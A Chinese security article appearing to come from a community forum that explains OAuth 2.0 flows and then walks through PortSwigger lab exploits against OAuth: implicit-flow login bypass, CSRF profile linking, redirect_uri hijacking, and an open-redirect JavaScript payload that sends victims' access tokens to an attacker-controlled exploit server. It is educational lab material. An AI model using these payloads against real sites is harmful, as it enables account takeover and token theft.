





# OAuth 2.0 认证缺陷刨析 - 先知社区

OAuth 2.0 认证缺陷刨析

- - -

## 文章前言

我们在浏览到一个网页时经常会遇到需要使用一段第三方社交媒体的账户 (Github、Facebook 等) 登录的情况，而这种大多数都是使用 OAuth 2.0 框架构建的，关于此项技术之前只是在一些功能站点中作为用户来使用并未对此进行深入研究，最近出于对 OAuth 2.0 的安全评估需求，对 OAuth 2.0 的身份认证过程和安全脆弱性进行了一个从零到一的梳理并以文章方式呈现，本篇文章将着重介绍 OAuth 身份认证的原理、OAuth 身份认证过程中存在的安全问题以及如何正确使用 OAuth 进行身份认证

## 基本介绍

OAuth(Open Authorization，开放授权协议) 是一种用于授权第三方应用程序访问受保护资源的开放标准协议，它允许用户授权第三方应用程序代表其访问受限资源，而无需将用户名和密码提供给第三方应用，OAuth 的设计目标是提供一种安全、标准化的授权机制，使用户能够安全地分享他们在一个服务提供商处存储的资源，同时保护用户的凭证信息，OAuth 的核心思想是将授权过程与资源所有者的凭证信息分离开来以提高安全性和用户体验

## 版本介绍

OAuth 发展至今一共有两个版本：

-   OAuth 1.0：此版本是最早发布的 OAuth 协议版本，它使用了基于签名的方法来验证请求的完整性和身份。在 OAuth 1.0 中客户端需要使用自己的身份密钥 (consumer key) 和共享密钥 (shared secret) 进行身份验证并使用加密算法对请求进行签名，授权过程中涉及多个步骤，包括请求令牌、重定向用户进行授权、获取访问令牌等。OAuth 1.0 提供了可靠的安全性和身份验证，适用于某些安全性要求较高的场景，然而由于复杂的流程和签名要求，OAuth 1.0 实现起来较为复杂，这也使得 OAuth 迎来了 2.0 版本
-   OAuth 2.0：此版本是 OAuth 协议的下一代版本，旨在提供更简化的授权流程和更广泛的适用性。OAuth 2.0 引入了许多改进，使得使用 OAuth 变得更加易于理解和实现，OAuth 2.0 与 OAuth 1.0 相比主要放弃了基于签名的请求验证方法，转而依赖使用 HTTPS 的传输层安全性。OAuth 2.0 引入了更强大的访问令牌和刷新令牌的概念，提供了更好的令牌管理和过期控制，它还引入了不同的授权类型，例如：授权码模式、密码模式、简化模式和客户端凭证模式以满足不同的应用需求。OAuth 2.0 更具扩展性，允许开发者根据自己的需求进行自定义的授权流程和令牌类型，由于其简化的流程和更广泛的适用性，OAuth 2.0 成为目前广泛应用的 OAuth 版本，被用于许多不同的应用和服务集成

## 关联角色

在 OAuth 2.0 协议中定义了以下四个角色：

-   Client(客户端)：客户端是请求访问资源的应用程序，它代表资源所有者向授权服务器请求授权，例如：移动应用、网页应用等
-   Resource Owner(资源所有者)：资源所有者是指拥有受保护资源的用户，具备对资源的授权能力，例如：网站的注册用户的个人数据信息等
-   Resource Server(资源服务器)：资源服务器是承载受保护资源的服务器，它能够接收使用访问令牌对受保护资源的请求并响应，它与授权服务器可以是同一服务器，也可以是不同服务器
-   Authorization Server(授权服务器)：授权服务器主要的主要职责是验证资源所有者的身份并依据资源所有者的许可对第三方应用下发令牌，它充当了资源所有者和客户端之间进行身份验证和授权的中间人

## 认证流程

OAuth 协议的基本流程大致如下：

-   Client 请求 Resource Owner 的授权，请求中一般包含要访问的资源路径、操作类型、Client 的身份等信息
-   Resource Owner 批准授权并将"授权证据"发送给 Client，Resource Owner 批准的典型的做法是 AS 提供授权审批界面让 Resource Owner 显式批准
-   Client 向 Authorization Server 请求"访问令牌 (Access Token)"，此时 Client 需向 Authorization Server 提供 RO 的"授权证据"以及 Client 自己身份的凭证
-   Authorization Server 验证通过后，向 Client 返回"Access Token"，访问令牌也有多种类型，若为 Author bearer 类型，那么谁持有访问令牌，谁就能访问资源
-   Client 携带"Access Token"访问 Resource Server 上的资源，在令牌的有效期内 Client 可以多次携带令牌去访问资源
-   Resource Server 验证令牌的有效性，比如：是否伪造、是否越权、是否过期，验证通过后，才能提供服务

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232343-3a3528fc-b93a-1.png)

## 授权类型

OAuth 授权类型确定了 OAuth 过程中所涉及的步骤的确切顺序，授权类型还影响客户端应用程序在每个阶段与 OAuth 服务的通信方式，包括访问令牌本身的发送方式，因此授权类型通常被称为"OAuth Flows"。在客户端应用程序启动相应的流之前，必须将 OAuth 服务配置为支持特定的授权类型，客户端应用程序需要在发送给 OAuth 服务的初始授权请求中指定使用的授权类型，每种类型都有不同程度的复杂性和安全考虑因素，目前的几种授权类型中"授权码授权"和"隐式授权"类型最为常见

### 授权码模式

授权码 (Authorization Code) 方式指的是第三方应用先申请一个授权码，然后再用该授权码去获取访问令牌，这种方式是最常用的流程，安全性也最高，期间客户端应用程序和 OAuth 服务端使用重定向来交换一系列基于浏览器的 HTTP 请求，这些请求启动流询问用户是否同意请求的访问，如果同意请求的访问，那么客户端应用程序将被授予"Authorization Code"，然后客户端应用程序与 OAuth 服务交换此代码以接收"Access Token"，他们可以使用该 Token 进行 API 调用以获取相关的用户数据，从 Code/Token 交换开始发生的所有通信都通过一个安全的、预先配置的反向通道发送到服务器，因此最终用户不可见，此安全通道是在客户端应用程序首次向 OAuth 服务注册时建立的，此时还会生成一个 client\_secret，客户端应用程序在发送这些服务器到服务器的请求时必须使用它来对自己进行身份验证，由于最敏感的数据 ("Access Token"和用户数据) 不是通过浏览器发送的，因此这种授权类型可以说是最安全的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232410-4a4c5daa-b93a-1.png)

下面是对上述流程的细化介绍：  
Step 1：授权请求  
客户端应用程序向 OAuth 服务的/authorization 端点发送请求，请求访问特定用户数据的权限

```plain
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=code&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```

此请求包含以下值得注意的参数，这些参数通常在查询字符串中提供：

-   client\_id：客户端应用程序的唯一标识符的强制参数，此值是在客户端应用程序向 OAuth 服务注册时生成的
-   redirect\_uri：向客户端应用程序发送授权代码时用户浏览器应重定向到的 URI，这也被称为"回调 URI"或回调端点"
-   response\_type：确定客户端应用程序期望的响应类型以及它想要启动的流，对于授权代码授予类型，值应为代码
-   scope：用于指定客户端应用程序要访问用户数据的哪个子集，这些可能是由 OAuth 提供程序设置的自定义作用域，也可能是由 OpenIDConnect 规范定义的标准化作用域
-   state：用于存储与客户端应用程序上的当前会话绑定的唯一、不可更改的值，OAuth 服务应该在响应中返回这个确切的值以及授权代码，通过确保对其/callback 端点的请求来自发起 OAuth 流的同一个人，此参数可作为客户端应用程序的 CSRF 令牌形式

Step 2：用户登录授权  
授权服务器收到初始请求时，它会把用户重定向到登录页面，在那里他们将被提示登录到 OAuth 提供商的帐户 (通常是社交媒体账户)，然后将向它们显示客户端应用程序想要访问的数据列表，这是基于授权请求中定义的作用域，用户可以选择是否同意此访问，需要注意的是一旦用户批准了客户端应用程序的给定作用域，只要用户与 OAuth 服务仍有有效会话，此步骤就会自动完成。换言之当用户第一次选择使用社交媒体登录时，他们需要手动登录并表示同意，但如果他们稍后重新访问客户端应用程序，通常只需单击一下即可重新登录

Step 3：授予授权码  
如果用户同意请求的访问，他们的浏览器将被重定向到授权请求的 redirect\_uri 参数中指定的/recallback 端点，生成的 GET 请求将包含作为查询参数的授权码，根据配置它还可以发送与授权请求中的值相同的状态参数

```plain
GET /callback?code=a1b2c3d4e5f6g7h8&state=ae13d489bd00e3c24 HTTP/1.1
Host: client-app.com
```

Step 4：访问令牌请求  
客户端应用程序接收到授权代码就需要将其交换为 Access Token，它向 OAuth 服务的/token 端点发送一个服务器到服务器的 POST 请求，从那时起所有通信都发生在一个安全的后台通道中，因此攻击者通常无法观察或控制通信

```plain
POST /token HTTP/1.1
Host: oauth-authorization-server.com
…
client_id=12345&client_secret=SECRET&redirect_uri=https://client-app.com/callback&grant_type=authorization_code&code=a1b2c3d4e5f6g7h8
```

除了 client\_id 和授权码之外，我们还会发现存在以下新参数：  
client\_secret：客户端应用程序必须通过包括在向 OAuth 服务注册时分配的密钥来对自己进行身份验证  
grant\_type：用于确保新端点知道客户端应用程序要使用哪种授予类型，在这种情况下应该将其设置为 authorization\_code

Step 5：Access token grant  
OAuth 服务将验证 Access Token 请求，如果一切如预期进行则服务器通过向客户端应用程序授予具有所请求作用域的 accesstoken 来进行响应

```plain
{
    "access_token": "z0y9x8w7v6u5",
    "token_type": "Bearer",
    "expires_in": 3600,
    "scope": "openid profile",
    …
}
```

Step 6：API 接口调用  
客户端应用程序有了 Access Code 后就可以从资源服务器获取用户的数据了，它可以对 OAuth 服务的/userinfo 端点进行 API 调用，accessToekn 一般在"Authorization：Bearer"头中提交以证明客户端应用程序具有访问此数据的权限

```plain
GET /userinfo HTTP/1.1
Host: oauth-resource-server.com
Authorization: Bearer z0y9x8w7v6u5
```

Step 7：资源获取  
资源服务器需要验证 token 是否有效以及它是否属于当前客户端应用程序，如果是则通过发送所请求的资源，随后基于访问令牌的范围的用户数据来进行响应

```plain
{
    "username":"carlos",
    "email":"carlos@carlos-montoya.net",
    …
}
```

### 隐式授权类型

隐式授权类型相对而言要简单得多，客户端应用程序不是首先获得授权码，然后将其交换为访问令牌，而是在用户同意后立即接收访问令牌，您可能想知道为什么客户端应用程序不总是使用隐式授予类型，答案相对简单—它远没有那么安全，当使用隐式授权类型时，所有通信都通过浏览器重定向进行——没有像授权代码流中那样的安全后台通道，这也意味着敏感的访问令牌和用户的数据更容易受到潜在的攻击，隐式授予类型更适合于单页应用程序和本机桌面应用程序，它们无法轻松地将 client\_secret 存储在后端，因此使用授权代码授予类型不会带来太多好处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232604-8ea2facc-b93a-1.png)

Step 1：授权请求  
隐式流的启动方式与授权代码流大致相同，唯一的主要区别是 response\_type 参数必须设置为 token

```plain
GET /authorization?client_id=12345&redirect_uri=https://client-app.com/callback&response_type=token&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: oauth-authorization-server.com
```

Step 2：用户登录授权  
用户登录并决定是否同意请求的权限，此过程与授权代码流的过程完全相同

Step 3：获取访问令牌  
如果用户同意所请求的访问，OAuth 服务将用户的浏览器重定向到授权请求中指定的 redirect\_uri，但是它不会发送包含授权代码的查询参数，而是将访问令牌和其他特定于令牌的数据作为 URL 片段发送，而由于访问令牌以 URL 片段的形式发送，因此它永远不会直接发送到客户端应用程序，相反客户端应用程序必须使用合适的脚本来提取片段并存储它

```plain
GET /callback#access_token=z0y9x8w7v6u5&token_type=Bearer&expires_in=5000&scope=openid%20profile&state=ae13d489bd00e3c24 HTTP/1.1
Host: client-app.com
```

Step 4：API 接口调用  
客户端应用程序成功地从 URL 片段中提取访问令牌后就可以使用它对 OAuth 服务的/userinfo 端点进行 API 调用，此过程通过浏览器实现

```plain
GET /userinfo HTTP/1.1
Host: oauth-resource-server.com
Authorization: Bearer z0y9x8w7v6u5
```

Step 5：资源访问  
资源服务器应验证令牌是否有效以及它是否属于当前客户端应用程序，如果有效它将根据与访问令牌关联的作用域发送请求的资源，即用户的数据，客户端应用程序最终可以将此数据用于其预期目的，在 OAuth 身份验证的情况下，它通常被用作 ID 来授予用户一个经过身份验证的会话，从而有效地将用户登录

```plain
{
    "username":"carlos",
    "email":"carlos@carlos-montoya.net"
}
```

## 安全风险

### OAuth 隐式认证绕过

#### 基本介绍

由于通过浏览器发送 Access Token 会带来危险，因此建议单页应用程序使用隐式授予类型，然而由于其相对简单也经常用于经典的客户端 - 服务器 Web 应用程序，在这个流中 Access Token 作为 URL 片段并通过用户的浏览器从 OAuth 服务发送到客户端应用程序，然后客户端应用程序使用 JavaScript 访问 token，问题是如果应用程序想在用户关闭页面后维护会话，它需要将当前用户数据 (通常是用户 ID 和访问令牌) 存储在某个地方，为了解决这个问题，客户端应用程序通常会在 POST 请求中将这些数据提交给服务器，然后为用户分配一个会话 cookie，有效地将他们登录，这个请求大致相当于表单提交请求，该请求可能作为经典的基于密码的登录的一部分发送，然而在这种情况下服务器没有任何机密或密码可以与提交的数据进行比较，这意味着它是隐式信任的，在隐式流中此 POST 请求通过浏览器暴露给攻击者，因此如果客户端应用程序没有正确检查访问令牌是否与请求中的其他数据匹配，这种行为可能会导致严重的漏洞，在这种情况下攻击者可以简单地更改发送到服务器的参数以模拟任何用户

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow](https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow)  
靶场介绍：本靶场的 OAuth 服务允许用户使用其社交媒体帐户登录，客户端应用程序有缺陷的验证使得攻击者可以在不知道其他用户密码的情况下登录到他们的帐户，你需要通过漏洞利用登录 Carlos 的帐户，他的电子邮件地址是 carlos@carlos-montoya.net，在此过程中你可以使用以下凭据使用自己的社交媒体帐户登录：wiener:peter.  
靶场演示：  
进入靶场后进行登录时会跳转到一个模拟的第三方社交类的站点进行认证授权

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232725-bed48b0c-b93a-1.png)  
填写表单完成认证后会出现以下提示，点击 continue 会跳转到 Blog 中去，此时会有一个请求资源的信息哦，需要注意一下下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232735-c4f9a9cc-b93a-1.png)

我们点击网站"My Account"的时候此时会直接跳转到第三方平台进行身份认证，触发以下 URL 请求

```plain
GET /auth?client_id=n4qmyi5uq06gdlhl0qxvd&redirect_uri=https://0a3800a503e276e680704498005600b7.web-security-academy.net/oauth-callback&response_type=token&nonce=57009725&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0a7400b0035a76af80c542ee02f100c7.oauth-server.net
Connection: close
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0a3800a503e276e680704498005600b7.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234603-59133798-b93d-1.png)

随后加载我们上面的第三方平台的认证页面并进行身份认证操作  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234617-61609918-b93d-1.png)

认证完成后进行跳转：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234631-69a75fbc-b93d-1.png)

随后进行一次回调操作：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234644-718c3464-b93d-1.png)

最后在/authenticate 中发送包含用户信息的 POST 请求以及访问令牌使得用户登录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234659-7a9795b2-b93d-1.png)  
但是通过测试发现这里并未对 token 与用户进行绑定，导致我们可以直接替换邮箱地址重发请求实现登录操作，具体操作如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234713-82afddd6-b93d-1.png)

从上面我们可以看到发生 302 跳转，随后我们直接在浏览器中响应此请求即可完成登录并解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234733-8ef1cf82-b93d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234746-96c89bdc-b93d-1.png)

完成解题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234756-9c7b3878-b93d-1.png)

此时的账户直接切换为了 carlos

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122232942-1070d056-b93b-1.png)

### CSRF 保护存在缺陷

#### 基本介绍

state 参数用于存储与客户端应用程序上的当前会话绑定的唯一、不可更改的值，理想情况下该参数应该包含一个不可访问的值，例如：在用户会话首次启动 OAuth 流时绑定到该会话的某个值的散列，然后该值作为客户端应用程序的 CSRF 令牌的形式在客户端应用程序和 OAuth 服务之间来回传递，因此如果发现授权请求没有发送状态参数，那么从攻击者的角度来看这可能意味着他们可以在诱骗用户的浏览器完成 OAuth 流之前自己启动 OAuth，类似于传统的 CSRF 攻击，这可能会产生严重后果，具体取决于客户端应用程序使用 OAuth 的方式

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking](https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking)  
靶场介绍：在本靶场中可以选择将社交媒体档案附加到你的帐户，这样你可以通过 OAuth 登录，而不是使用普通的用户名和密码，由于客户端应用程序对 OAuth 流的实现不安全，攻击者可以操纵此功能来访问其他用户的帐户，请使用 CSRF 攻击将您自己的社交媒体账户绑定到博客网站上的管理员用户帐户，然后访问管理员面板并删除 carlos，管理员用户将打开您从漏洞利用服务器发送的任何内容并且他们在博客网站上始终有一个活动会话，您可以使用以下凭据登录到自己的帐户：  
博客网站账号：wiener:peter  
社交媒体简介：wiener:hotdog  
靶场演示：  
首先我们登录账户并和第三方账户进行绑定开启通过第三方账户登录平台的功能  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233008-1ff34d42-b93b-1.png)  
登录之后进行绑定操作：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233018-259a4e12-b93b-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233024-29c38508-b93b-1.png)  
随后我们可以直接使用社交媒体账户直接登录：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233036-309d49d6-b93b-1.png)  
观察上面通信过程中的数据报文我们可以发现绑定请求/auth?client\_id 中的 redirect\_uri 用于将授权代码发送到/oauth-linking，重要的是该请求不包括用于防止 CSRF 攻击的状态参数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234820-aad09012-b93d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234832-b1ae5b62-b93d-1.png)

随后我们在攻击服务器中托管载荷  
[https://0a8e00bf03c7d26b809ec62b00bb008e.web-security-academy.net/oauth-linking?code=E2xsvqzKxHZ7LSP3d-75u9q7bTGUeDdzcQZwy0xGGze](https://0a8e00bf03c7d26b809ec62b00bb008e.web-security-academy.net/oauth-linking?code=E2xsvqzKxHZ7LSP3d-75u9q7bTGUeDdzcQZwy0xGGze)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233104-4140bda4-b93b-1.png)

随后发送载荷给受害者进行触发，使其通过 CSRF 攻击将我们的社交媒体账户绑定到管理员的地址进行绑定操作，触发之后我们可以来到下面的管理控制面板，随后直接删除用户即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233114-4769c5ea-b93b-1.png)

### 劫持帐户:redirect\_uri

#### 基本介绍

OAuth 服务本身的配置缺陷可能会使攻击者能够窃取 Authorization Code 或访问与其他用户帐户相关的 token，通过窃取有效的 Code 或 Token，攻击者可以访问受害者的数据，最终可能会完全损害他们的帐户——攻击者可能会以受害者用户的身份登录到此 OAuth 服务注册的任何客户端应用程序  
根据授权类型，通过受害者的浏览器将 Code 或 Token 发送到授权请求的 redirect\_uri 参数中指定的/recallback 端点，如果 OAuth 服务未能正确验证此 URI，攻击者可能能够构建类似 CSRF 的攻击，诱使受害者的浏览器启动 OAuth 流，该流将代码或令牌发送给攻击者控制的重定向 URI，在授权代码流的情况下，攻击者可能会在受害者的代码被使用之前窃取它，然后他们可以将此代码发送到客户端应用程序的合法/回调端点 (原始的 redirect\_uri) 以访问用户的帐户。在这种情况下攻击者甚至不需要知道客户端机密或由此产生的访问令牌，只要受害者与 OAuth 服务有一个有效的会话，客户端应用程序就会代表攻击者完成 Code/Token 交换，然后再将其登录到受害者的帐户

#### 靶场示例

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri](https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri)  
靶场介绍：本靶场使用 OAuth 服务允许用户使用其社交媒体帐户登录，OAuth 提供程序的错误配置使攻击者有可能窃取与其他用户帐户相关的授权代码，请窃取与管理员用户相关的授权码，然后使用它访问他们的帐户并删除用户 carlos，管理员用户将打开你从漏洞利用服务器发送的任何内容并且他们始终与 OAuth 服务有一个活动会话，你可以使用以下凭据使用自己的社交媒体帐户登录 wiener:peter  
靶场演示：  
首先使用使用我们的社交媒体账户进行登录

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233154-5f29b654-b93b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233204-65043a40-b93b-1.png)

注销后重新登录时发现会立即登录  
注销操作：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233214-6b01d218-b93b-1.png)  
登录时重定向到第三方社交媒体账户：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233224-70b3356c-b93b-1.png)  
随后自动完成了登录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233234-773a8d18-b93b-1.png)  
My Account 页面如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233244-7d150902-b93b-1.png)  
在分析查看认证请求报文时我们发现通过更改 redirect\_uri 为任意值后并不会遇到错误提示类信息，随后我们将 redirect\_uri 更改为指向漏洞利用服务器，然后发送请求并遵循重定向  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234900-c2b03e44-b93d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234912-c9987d7a-b93d-1.png)

转到利用服务器的访问日志，观察到有一个包含 code 的日志条目，这确认了我们可以将授权代码泄漏到外部  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234929-d40122bc-b93d-1.png)

返回到漏洞利用服务器并在/acurie 上创建以下 iframe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122234943-dc41e894-b93d-1.png)

随后访问 exploit

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233339-9db58ca4-b93b-1.png)  
在日志我们可以看到成功有 code 被带出来，说明构造正确

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122235003-e859beb8-b93d-1.png)

随后分发漏洞利用载荷，随后在日志中可以看到请求记录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122235016-eff700cc-b93d-1.png)  
注销博客网站，然后使用盗取的 code 导航首页  
[https://0ad7006c0339899081fa6629006200e1.web-security-academy.net/oauth-callback/?code=e64V3\_QKbjHwxwGyvRN36JKFlpRT7K4Mq2m0w7QDPeu](https://0ad7006c0339899081fa6629006200e1.web-security-academy.net/oauth-callback/?code=e64V3_QKbjHwxwGyvRN36JKFlpRT7K4Mq2m0w7QDPeu)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233425-b8ff7f6a-b93b-1.png)  
随后进入 Admin 面板  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233450-c7e017f6-b93b-1.png)  
删除用户后完成解题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233514-d6393a94-b93b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233521-dab2961a-b93b-1.png)

### 重定向窃取 OAuth Token

#### 基本介绍

如果我们确定了可以设置为重定向 URI 的其他页面，那么就应该对它们进行审计并找出可能用于泄露代码或令牌的其他漏洞。对于授权代码流，我们需要找到一个可以查询参数的漏洞，而对于隐式授予类型还需要提取 URL 片段，用于此目的的最有用的漏洞之一是开放式重定向，我们可以将其用作代理并将受害者及其 Code 或 Token 转发到攻击者控制的域，在那里我们可以托管恶意脚本，需要注意的是对于隐式授予类型，窃取访问令牌不仅仅使我们能够登录到客户端应用程序上受害者的帐户，由于整个隐式流是通过浏览器进行的，因此我们还可以使用 token 对 OAuth 服务的资源服务器进行自己的 API 调用，这可能使我们能够从客户端应用程序的 web UI 获取通常无法访问的敏感用户数据

#### 靶场演示

靶场地址：[https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)  
靶场介绍：本靶场的 OAuth 服务允许用户使用其社交媒体帐户登录，OAuth 服务的验证有缺陷使得攻击者有可能将访问令牌泄露到客户端应用程序上的任意页面，我们需要在博客网站上识别一个开放式重定向并使用它窃取管理员用户帐户的访问令牌，使用访问令牌获取管理员的 API 密钥并使用靶场界面中提供的按钮提交答案  
靶场演示：  
登录账户后我们在 burpsuite 中观察请求的 URL 路径，其中/me 的回显报文中包含 apiKey 等信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122235040-fe08f594-b93d-1.png)

随后我们直接登出并点击通过社交媒体登录的按钮，在这里我们会发现以下的请求报文，其中包含 redirect\_uri 重定向参数  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233606-f5256ed2-b93b-1.png)  
当我们将 redirect\_uri 替换为 localhost 时，此时会触发 400 错误提示信息  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233628-024f1180-b93c-1.png)  
随后我们在登录社交媒体账户时将 redirect\_uri 参数进行路径遍历，尝试加入../并将其指向 blog

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233648-0e1ff84e-b93c-1.png)  
随后我们直接来到第一个博客页面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233700-15a5e4b6-b93c-1.png)  
随后我们在查看博客时发现点击"Next post"时会发现这里的 path 参数竟然存在开放式重定向  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233712-1c84502e-b93c-1.png)  
随后我们构造和上一个靶场一样的参数并在漏洞利用载荷服务器中托管以下内容

```plain
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233731-27f1c43c-b93c-1.png)  
分发请求后我们可以看到如下请求记录，其中包含了我们的 accesstoken 参数，说明这里的 token 可以被带出来

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233742-2e8b7a0e-b93c-1.png)  
随后我们进入到利用环境，构造如下载荷

```plain
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233803-3b2215ac-b93c-1.png)  
分发请求之后我们可以在访问日志中看到 access\_token 的记录  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233815-4206a0c2-b93c-1.png)  
随后我们使用获取到的 access\_token 替换/me 请求报文中的 token 参数并发送数据包，此时可以获取到 apikey 凭据信息，随后提交答案即可  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240122233827-498dadb8-b93c-1.png)

### 通过代理页窃取 OAuth Token

